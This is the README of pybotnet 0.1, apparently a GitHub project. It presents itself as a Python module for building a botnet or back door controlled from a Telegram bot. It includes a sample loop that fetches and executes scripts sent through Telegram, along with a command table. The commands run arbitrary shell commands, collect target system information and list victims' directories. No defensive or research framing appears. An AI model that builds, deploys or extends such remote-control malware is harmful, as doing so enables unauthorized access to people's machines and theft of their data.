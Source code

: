 # pybotnet  0.1

A module for building botnet or back door with Python and Telegram control panel
- [x] windows
- [x] linux
- [x] mac

### See the [TODO List](https://github.com/onionj/pybotnet/blob/master/TODOLIST.MD) if you want to *help* me <3

### Features:
* get command from telegram and execute scripts 
* get command and send message by third party proxy
* get target info 
* sleep source by Optional message
* get ls (dirctory list)

 


### Requirements:

* Python 3.6 or higher.
* Telegram account
* your account number ID (get it from @userinfobot)
* telegram api token (Get it from the telegram botfather)
```
pip install -r requirements.txt
```

### Sample:

```python
import pybotnet
import time

TELEGRAM_TOKEN = '1468299500:AAHsvEH-5VyIfWYMzZcYxF_e00000000000'
ADMIN_CHAT_ID = '12345678910'
delay = 60

bot = pybotnet.PyBotNet(TELEGRAM_TOKEN, ADMIN_CHAT_ID, show_log=True, send_system_data=True)

while True:
    bot.get_and_execute_scripts_by_third_party_proxy()
    time.sleep(delay)

```

### Commmands:
Send this message to your api bot in telegram, using the admin account.

COMMAND | sample | DO THIS | Minimum version required |
--------|--------|---------|--------------------------|
do_sleep \<scconds> \<message (Optional)> | dosleep 99999 hi, i see you! | \<if message != none : print(message) > ; time.sleep(seccond) | 0.08 |
get_info | get_info |return system info | 0.06 |
cmd \<system command> | cmd ping google.com | run system command in shell or cmd (Be careful not to give endless command)| 0.07 |
ls \<route (Optional)> | ls C:\ , ls /home |Returns a list of folders and files in that path | 0.09
